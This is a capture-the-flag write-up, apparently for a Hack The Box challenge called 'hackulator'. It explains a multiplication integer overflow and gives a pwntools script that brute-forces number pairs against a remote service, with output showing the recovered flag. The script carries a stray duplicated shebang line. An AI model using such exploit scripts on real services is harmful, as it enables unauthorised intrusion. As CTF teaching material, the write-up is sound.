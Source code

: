 It's obvious that there's an overflow when performing multiplication. The only thing that is left now is to find the correct pair of numbers in order to satisfy the condition. There are plenty of methods to do so.

* Trial and error.   
* Brute forcing.
* Calculating the result.

In my exploit I used brute forcing.

### Exploit :scroll:

```python
#!/usr/bin/python3
usr/bin/python3
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './hackulator' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

rl = lambda : r.recvline()
ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	for i in range (20,70):	 					# try positive numbers 
		for k in range (-1,-100,-1): 			# try negative numbers
			payload = str(i) + ' ' + str(k)		# craft payload
			r.sendlineafter('Insert 2 numbers:',payload)	
			payload = '3' 						# Choose multiplication				
			sla('>', payload)
			rl()
			ln = r.recvline()	# if we found the correct result
			if b'HTB' in ln:
				print('Pair of numbers: ({})*({})'.format(i,k))
				print((b'Flag: HTB' + ln.split(b'HTB')[1]).decode())
				exit()

if __name__ == '__main__':
	pwn()

```
### PoC :black_flag:

```console
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
Pair of numbers: (22)*(-69)
Flag: HTB{d0_u_3v3n_m4th_4g3nt?!}
```
